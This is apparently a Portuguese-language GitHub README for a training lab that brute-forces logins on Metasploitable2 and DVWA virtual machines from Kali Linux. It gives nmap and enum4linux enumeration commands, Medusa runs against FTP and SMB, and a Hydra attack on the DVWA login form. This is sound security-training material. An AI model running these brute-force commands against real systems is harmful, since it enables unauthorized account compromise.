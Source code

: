
# Desafio: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)

## Resumo
Projeto prático para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux e Medusa, com alvo Metasploitable2 e DVWA. Objetivo: aprender enumeração, execução de ataques e propor medidas de mitigação.

> **Atenção:** todos os testes foram executados apenas em VMs de laboratório (Kali e Metasploitable). Não execute testes em sistemas sem autorização.

## Ambiente
- Hypervisor: VirtualBox  
- Kali Linux — IP: **192.168.1.2**  
- Metasploitable2 (alvo) — IP: **192.168.1.16**  
- Rede: Host-only / Internal Network

## Ferramentas utilizadas
- Kali Linux  
- Medusa  
- Nmap  
- smbclient, enum4linux  
- Hydra (opcional, para formulários HTTP)  
- ssh/sshfs

## Wordlists (exemplos)
- `wordlists/simples_usernames.txt`  
- `wordlists/simples_passwords.txt`  

*(Use wordlists maiores como `rockyou.txt` somente em laboratório.)*

## Comandos principais (exemplos)
### Enumeração
```bash
sudo nmap -sS -sV -p21,22,80,139,445,3306 192.168.1.16 -oN nmap_common.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt


medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f -O results/medusa_ftp.txt


medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f -O results/medusa_smb.txt


hydra -l admin -P wordlists/simples_passwords.txt 192.168.1.16 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=incorrect"



🧩 Evidências
1️⃣ Resultado do Nmap
<p align="center"> <img src="imagens/imagem1.png" alt="Nmap scan" width="600px" style="border-radius:10px; box-shadow: 0 0 10px rgba(0,0,0,0.2);"/> <br> <em>Figura 1 — Resultado do Nmap mostrando portas abertas.</em> </p>
2️⃣ Medusa – FTP
<p align="center"> <img src="imagens/imagem2.png" alt="Medusa FTP" width="600px" style="border-radius:10px; box-shadow: 0 0 10px rgba(0,0,0,0.2);"/> <br> <em>Figura 2 — Medusa encontrou credenciais válidas para FTP.</em> </p>
3️⃣ DVWA – Login
<p align="center"> <img src="imagens/imagem3.png" alt="DVWA login" width="600px" style="border-radius:10px; box-shadow: 0 0 10px rgba(0,0,0,0.2);"/> <br> <em>Figura 3 — Tela de login do DVWA usada para testes.</em> </p>
4️⃣ Teste adicional
<p align="center"> <img src="imagens/imagem4.png" alt="Teste" width="600px" style="border-radius:10px; box-shadow: 0 0 10px rgba(0,0,0,0.2);"/> <br> <em>Figura 4 — Descrição do teste.</em> </p>
5️⃣ Outra captura
<p align="center"> <img src="imagens/imagem5.png" alt="Outra captura" width="600px" style="border-radius:10px; box-shadow: 0 0 10px rgba(0,0,0,0.2);"/> <br> <em>Figura 5 — Outra captura relevante.</em> </p>
